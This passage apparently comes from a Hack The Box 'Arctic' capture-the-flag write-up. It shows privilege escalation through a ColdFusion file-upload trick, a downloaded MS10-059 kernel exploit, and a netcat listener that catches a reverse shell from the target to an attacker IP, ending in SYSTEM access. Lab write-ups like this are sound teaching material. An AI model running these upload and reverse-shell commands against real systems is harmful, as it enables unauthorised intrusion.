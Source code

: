 Then run the exploit suggester.

```text
./windows-exploit-suggester.py --database 2019-10-12-mssb.xls --systeminfo /root/Desktop/htb/arctic/systeminfo.txt
```

![](https://miro.medium.com/max/949/1*jtJeltBsPcvK8wf1ptl8KQ.png)

We have 3 non-Metasploit exploits. I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work! I found an already compiled executable for it [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).

**Disclaimer**: You really should not use files that you don’t compile yourself, especially if they open up a reverse shell to your machine. Although I’m using this precompiled exploit, I don’t vouch for it.

I’ll transfer the file using arrexal’s exploit by simply changing the req parameter from

```text
...CurrentFolder=/exploit.jsp
```

to

```text
...CurrentFolder=/exploit.exe
```

Run the exploit in the same way and it uploads the exploit to the following directory on the target machine.

```text
cd C:\ColdFusion8\wwwroot\userfiles\file
```

![](https://miro.medium.com/max/581/1*qPCUGbEgK8aqA21u5erKCw.png)

Start up another listener on the attack machine.

```text
nc -nlvp 6666
```

Run the exploit.

```text
exploit.exe 10.10.14.6 6666
```

We have system!

![](https://miro.medium.com/max/635/1*HIOUV1dyIFzvmiuomNT85A.png)

Grab the root flag.

![](https://miro.medium.com/max/482/1*dmzoWaGHptiks_u1v3fRCw.png)

## Lessons Learned <a id="0a4b"></a>

